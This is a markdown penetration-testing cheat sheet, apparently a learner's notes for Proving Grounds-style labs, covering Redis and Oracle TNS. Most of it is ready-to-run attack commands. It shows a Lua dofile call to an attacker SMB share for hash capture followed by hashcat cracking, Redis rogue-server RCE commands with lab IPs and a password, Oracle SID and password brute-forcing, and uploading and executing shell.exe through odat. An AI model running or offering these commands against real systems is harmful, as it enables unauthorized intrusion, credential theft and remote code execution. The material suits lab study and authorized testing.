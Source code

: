 **SSRF**
- eval "dofile('//myip/share')" 0
  - run also with `sudo impacket-smbserver -smb2support share /home/kali/Downloads/`
  - `hashcat -m 5600 -a 0 user.hash /usr/share/wordlists/rockyou.txt`

**Possible RCEs, see with searchsploit**
- [Redis Rogue Server](https://github.com/n0b0dyCN/redis-rogue-server)
  - if you don't need user:password, `python3 redis-rogue-server.py --rhost RHOST --lhost LHOST`
- [RedisModules-ExecuteCommand](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand)
- other RCE (combine the two commands):
  - python redis-rce.py -r 192.168.220.166 -L 192.168.45.181 -f exp.so -a 'Ready4Redis?'
  - python3 redis-rogue-server.py --rhost 192.168.220.166 --rport 80 --lhost 192.168.45.181 --lport 7080 --exp=exp.so -v --passwd='Ready4Redis?'

**Resources**
- [6379 - Pentesting Redis | HackTricks](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis)
- [4 :6379 redis Writeup](https://kashz.gitbook.io/proving-grounds-writeups/pg-boxes/sybaris/4-6379-redis)
- [Readys Write Up — Proving Grounds](https://medium.com/@C4berowl/readys-write-up-proving-grounds-e066074eed)



## Oracle TNS

- HackTricks: https://book.hacktricks.xyz/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener
- Common ports: `1521`, `1748`
- TNS poison: `python3 odat.py tnspoison -s <IP> -p <PORT> -d <SID> --test-module`

1. Enumeration - version
- `nmap --script "oracle-tns-version" -p 1521 -T4 -sV IP`
- `tnscmd10g COMMAND -p 1521 -h IP`
  - commands: `ping`, `version`, `status`, `services`, `debug`, `reload`, `save_config`, `stop`
  - if it gives you an error, try '--10G'
  - See description of errors here: https://docs.oracle.com/database/121/ERRMG/TNS-00000.htm

2. Enumerate SID
- `hydra -L '/home/kali/Documents/lists/oracle-tns/sids-oracle.txt' -s 1521 IP oracle-sid`
- `python3 odat.py sidguesser -s IP -p 1521`

3. Password guess
- `python3 odat.py passwordguesser -s IP -p 1521 -d XE --accounts-file accounts/accounts_large.txt`
- `nmap -p1521 --script oracle-brute-stealth --script-args oracle-brute-stealth.sid=DB11g -n IP`

4. Upload arbitrary files
- `python3 odat.py utlfile -s IP -p 1521 -U scott -P tiger -d XE --sysdba --putFile c:/ shell.exe shell.exe`

5. Execute files
- `python3 odat.py externaltable -s IP -p 1521 -U scott -P tiger -d XE --sysdba --exec c:/ shell.exe`


## Memcached
